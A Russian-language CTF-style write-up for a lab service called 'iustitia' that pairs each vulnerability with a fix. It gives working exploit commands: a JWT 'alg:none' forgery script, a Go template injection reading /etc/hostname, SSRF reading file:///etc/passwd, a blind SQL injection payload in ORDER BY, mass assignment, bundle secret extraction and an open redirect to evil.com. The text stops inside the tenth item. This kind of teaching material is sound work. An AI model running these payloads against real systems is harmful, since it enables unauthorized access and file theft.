# Write-Up for service - iustitia

## [0x00] Description

`iustitia` - сервис судопроизводства «Одиннадцатого государства». Граждане подают заявления, регистратор распределяет дела прокурорам, прокурор формирует заключение, судья выносит приговор. Технологический стек: Go (backend, chi-router, sqlc, squirrel, sqlite) + React/TypeScript (frontend, Vite, TanStack Query, Zustand). Сервис содержит 12 уязвимостей: 4 на бэкенде, 4 фронтенда, 2 в конфигурации, 2 логических.

---

## [0x01] Vuln 1: Stored XSS в тексте заявления

При создании нового дела гражданин отправляет `POST /api/cases` с полем `text` (текст заявления). Бэкенд не санитизирует HTML - `bluemonday` или аналог отсутствуют. Сохранённый текст затем отображается в `CaseView.tsx` через `dangerouslySetInnerHTML`, что приводит к выполнению произвольного JavaScript в браузере пользователя, открывшего дело.

Логин и подача заявления с XSS-пейлоадом:

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"citizen_07","password":"c1t1z3n!"}' | jq -r .token)

curl -s -X POST http://localhost:8080/api/cases \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"defendant":"Test Suspect","crime":"test","text":""}'
```



После того как прокурор открывает дело, в браузере срабатывает alert:



---

## [0x02] Vuln 1: Fix

Исправление в `internal/usecase/case.go` - метод `Create` санитизирует входящий текст через `bluemonday.UGCPolicy()` перед сохранением:

```go
var bluemondayUGC = bluemonday.UGCPolicy()

func (u *Case) Create(ctx context.Context, citizenID uuid.UUID, defendant, crime, firstText string) (*domain.Case, error) {
    sanitizedText := strings.TrimSpace(bluemondayUGC.Sanitize(firstText))
    if sanitizedText == "" {
        return nil, apperr.ErrBadRequest
    }
    // ...
}
```

Пейлоад `` вырезается на этапе сохранения и alert больше не срабатывает.

---

## [0x03] Vuln 2: JWT alg:none - подделка токена

JWT middleware в `pkg/jwt/jwt.go` использует опцию `UnsafeAllowNoneSignatureType` из библиотеки `golang-jwt/jwt`. Это позволяет принимать токены с алгоритмом `"alg":"none"` - без проверки подписи. Злоумышленник конструирует токен с произвольным `user_id` и `role`, и получает доступ как судья, прокурор или регистратор.

```python
import base64, json, requests

def b64url(d):
    return base64.urlsafe_b64encode(json.dumps(d, separators=(',',':')).encode()).rstrip(b'=').decode()

header  = b64url({"alg": "none", "typ": "JWT"})
payload = b64url({"user_id": "33333333-3333-4333-8333-333333333333", "role": "judge", "exp": 9999999999})
token   = f"{header}.{payload}."

r = requests.get("http://localhost:8080/api/hearings",
                 headers={"Authorization": f"Bearer {token}"})
print(r.status_code, r.json())
```



Запрос к `/api/hearings` с подделанным токеном возвращает `200 OK` и полный список дел судьи:



---

## [0x04] Vuln 2: Fix

Исправление в `pkg/jwt/jwt.go` - `UnsafeAllowNoneSignatureType` убран, токен парсится строго через HMAC-ключ. Любой алгоритм кроме HS256/384/512 отвергается:

```go
token, err := jwtv4.ParseWithClaims(tokenStr, claims, func(t *jwtv4.Token) (any, error) {
    if _, ok := t.Method.(*jwtv4.SigningMethodHMAC); !ok {
        return nil, fmt.Errorf("unexpected signing method: %v", t.Header["alg"])
    }
    return []byte(secret), nil
})
```

Тот же скрипт теперь возвращает `401 Unauthorized`.

---

## [0x05] Vuln 3: SSTI + чтение файлов через шаблон приговора

Шаблон текста приговора рендерится через стандартный `text/template` из Go. В контекст рендера передаётся структура `DocumentContext`, которая содержит метод `ReadClassified(path string)`, предназначенный для вставки содержимого секретных файлов. Если злоумышленник поместит в поле `reasoning` запроса `/api/cases/{id}/verdict` строку вида `{{.ReadClassified "/etc/hostname"}}` - шаблонизатор вызовет этот метод и включит содержимое файла в итоговый документ.

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"judge_3","password":"ju$tice_189"}' | jq -r .token)

curl -s -X POST "http://localhost:8080/api/cases/c2222222-2222-4222-8222-222222222222/verdict" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"verdict":"guilty","sentence":"25 лет","reasoning":"{{.ReadClassified \"/etc/hostname\"}}"}'
```



Содержимое файла `/etc/hostname` оказывается встроено в текст приговора. Метод `ReadClassified` в `pkg/docgen/generator.go`:

```go
func (d *DocumentContext) ReadClassified(path string) string {
    data, _ := os.ReadFile(path)
    return string(data)
}

func Generate(userTemplate string, ctx *DocumentContext) (string, error) {
    tmpl, err := template.New("doc").Parse(userTemplate)
    // пользовательский reasoning передаётся как шаблон
    tmpl.Execute(&buf, ctx)
}
```

---

## [0x06] Vuln 3: Fix

Уязвимый `text/template` заменён на whitelist-подстановку через `strings.Replacer`. Фиксированный список плейсхолдеров заменяется реальными значениями, пользовательский ввод вставляется как обычный текст - без интерпретации шаблонных директив:

```go
func Generate(tmplText string, ctx *DocumentContext) (string, error) {
    r := strings.NewReplacer(
        "{{.CaseID}}",    ctx.CaseID,
        "{{.Defendant}}", ctx.Defendant,
        "{{.Verdict}}",   ctx.Verdict,
        "{{.Sentence}}",  ctx.Sentence,
        "{{.Reasoning}}", ctx.Reasoning,
    )
    return r.Replace(tmplText), nil
}
```

Строка с SSTI попадает в документ буквально, файл не читается.

---

## [0x07] Vuln 4: Mass Assignment в PATCH /archive/{id}

`PATCH /api/archive/{id}` принимает произвольный JSON-объект. Обработчик передаёт все пришедшие поля в динамический UPDATE через `squirrel`. Список разрешённых к обновлению колонок содержит `classified_note`. Это позволяет судье перезаписать секретную пометку дела в архиве.

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"judge_3","password":"ju$tice_189"}' | jq -r .token)

curl -s -X PATCH "http://localhost:8080/api/archive/0be71396-5742-46a5-b438-6fa7189e82b0" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"classified_note":"OVERWRITTEN BY ATTACKER"}'
```



Повторный GET подтверждает: `classified_note` перезаписана:



---

## [0x08] Vuln 4: Fix

Исправление в `internal/controller/restapi/v1/archive.go` - handler явно строит `map` только из безопасных полей. Поле `classified_note` никогда не попадает в UPDATE:

```go
updates := map[string]any{}
if req.Sentence != nil {
    updates["sentence"] = *req.Sentence
}
if req.FinalVerdict != nil {
    updates["final_verdict"] = string(*req.FinalVerdict)
}
```

PATCH с `classified_note` возвращает `200 OK`, но значение в базе не изменяется.

---

## [0x09] Vuln 5: Утечка classified_note через GET /cases

`GET /api/cases` возвращает поле `classified_note` всем авторизованным пользователям независимо от роли. Прокурор видит секретные пометки МТБ в ответе API - хотя по логике это поле предназначено только для судьи.

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"prosecutor_11","password":"pr0s3cut0r!"}' | jq -r .token)

curl -s http://localhost:8080/api/cases \
  -H "Authorization: Bearer $TOKEN" | jq '[.[] | {defendant, classified_note}]'
```



---

## [0x0A] Vuln 5: Fix

Исправление в `internal/controller/restapi/v1/response/case.go` - функция `FromCase` принимает `role` и возвращает `ClassifiedNote` только для судьи:

```go
func FromCase(c *domain.Case, role domain.Role) openapi.Case {
    out := openapi.Case{ /* ... остальные поля */ }
    if role == domain.RoleJudge {
        out.ClassifiedNote = c.ClassifiedNote
    }
    return out
}
```

Прокурор и другие роли получают `"classified_note": null`.

---

## [0x0B] Vuln 6: SSRF через file:// в AttachEvidence

`POST /api/complaints/{id}/evidence` принимает поле `url` и загружает содержимое по этому адресу. В `usecase/complaint.go` зарегистрирован кастомный HTTP-транспорт для схемы `file://` через `http.NewFileTransport`. Это позволяет прокурору читать произвольные файлы контейнера.

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"prosecutor_11","password":"pr0s3cut0r!"}' | jq -r .token)

curl -s -X POST "http://localhost:8080/api/complaints/COMPLAINT_ID/evidence" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"url":"file:///etc/passwd"}'
```



---

## [0x0C] Vuln 6: Fix

Исправление в `usecase/complaint.go` - убрана регистрация `file://` транспорта, добавлена явная проверка схемы URL:

```go
parsed, err := url.Parse(rawURL)
if err != nil {
    return nil, apperr.ErrBadRequest
}
if parsed.Scheme != "http" && parsed.Scheme != "https" {
    return nil, apperr.ErrBadRequest
}
```

Запрос с `file://` теперь возвращает `400 Bad Request`.

---

## [0x0D] Vuln 7: SQL-инъекция в ORDER BY

`POST /api/cases/search` принимает поля `order_by` и `direction`. В `internal/repo/sqlstore.go` эти значения передаются напрямую в метод `OrderBy` построителя запросов `squirrel` без валидации. Уязвимость - Boolean-blind SQLi: через `CASE WHEN` можно извлекать данные из таблиц побайтово.

```bash
TOKEN=$(curl -s -X POST http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"prosecutor_11","password":"pr0s3cut0r!"}' | jq -r .token)

curl -s -X POST http://localhost:8080/api/cases/search \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"q":"","order_by":"defendant,(SELECT CASE WHEN (SELECT count(*) FROM users WHERE role='"'"'judge'"'"')>0 THEN defendant ELSE crime END)","direction":"asc"}'
```



Запрос возвращает `200 OK` - инъекция работает.

---

## [0x0E] Vuln 7: Fix

Исправление в `internal/usecase/case.go` - введён строгий whitelist допустимых значений. Любое значение вне whitelist сбрасывается в безопасный дефолт:

```go
var (
    allowedOrderBy = map[string]struct{}{
        "id": {}, "seq_num": {}, "created_at": {}, "defendant": {},
    }
    allowedDirection = map[string]struct{}{
        "asc": {}, "desc": {},
    }
)

orderBy := strings.ToLower(strings.TrimSpace(req.OrderBy))
if _, ok := allowedOrderBy[orderBy]; !ok {
    orderBy = "created_at"
}
```

Инъекционный пейлоад сбрасывается в `created_at desc` - SQL-инъекция невозможна.

---

## [0x0F] Vuln 8: Секреты в JS-бандле (Vite define)

`vite.config.ts` содержит блок `define`, который инлайнит значения переменных окружения прямо в JavaScript-бандл на этапе сборки. В `docker-compose.yml` передаются `VITE_SERVICE_TOKEN` и `VITE_INTERNAL_HMAC_KEY` со значениями вида `SECRET_MARKER_B_mtb_bundle_service_token_2189`. Любой пользователь, загрузив главный JS-файл сайта, получает эти секреты в открытом виде - без авторизации.

```bash
BUNDLE=$(curl -s http://localhost:8081/ | grep -oP '(?<=src=")/assets/[^"]+\.js' | head -1)
curl -s "http://localhost:8081$BUNDLE" | grep -o 'SECRET_MARKER_[A-Za-z0-9_]*'
```



---

## [0x10] Vuln 8: Fix

Исправление в `patched-service/iustitia/docker-compose.yml` - переменные `VITE_SERVICE_TOKEN`, `VITE_INTERNAL_HMAC_KEY` и `VITE_TRIBUNAL_SECRET` закомментированы и не передаются в build-args:

```yaml
# VITE_SERVICE_TOKEN: "..."     # убрано
# VITE_INTERNAL_HMAC_KEY: "..." # убрано
```

После пересборки `grep SECRET_MARKER` по бандлу ничего не находит.

---

## [0x11] Vuln 9: dangerouslySetInnerHTML без санитизации (frontend)

Компонент `CaseView.tsx` отображает поле `classified_note` и тексты жалоб через `dangerouslySetInnerHTML` напрямую, без прогона через DOMPurify или иной санитайзер. Пейлоад `` в тексте заявления -> alert срабатывает при открытии дела прокурором:



---

## [0x12] Vuln 9: Fix

Исправление в `patched-service/iustitia/frontend/src/entities/case/ui/CaseView.tsx` - `dangerouslySetInnerHTML` заменён на рендеринг через DOMPurify с явным whitelist-ом безопасных тегов:

```tsx
import DOMPurify from 'dompurify';

const RICH_TEXT_CONFIG = {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'u', 'code', 'br', 'p', 'span'],
  ALLOWED_ATTR: ['class'],
};

const sanitize = (html: string): string => DOMPurify.sanitize(html, RICH_TEXT_CONFIG);

<div dangerouslySetInnerHTML={{ __html: sanitize(text) }} />
```

Тот же пейлоад отображается как безопасный текст, `onerror` не выполняется.

---

## [0x13] Vuln 10: Open Redirect через параметр ?next=

`LoginPage.tsx` читает параметр `?next=` из URL и после успешного входа выполняет `window.location.href = next`. Проверка того, что `next` является внутренним путём, отсутствует. Злоумышленник формирует ссылку вида `/login?next=https://evil.com` и отправляет её жертве. После логина жертва перенаправляется на внешний сайт.

```
http://localhost:8081/login?next=https://evil.com
```

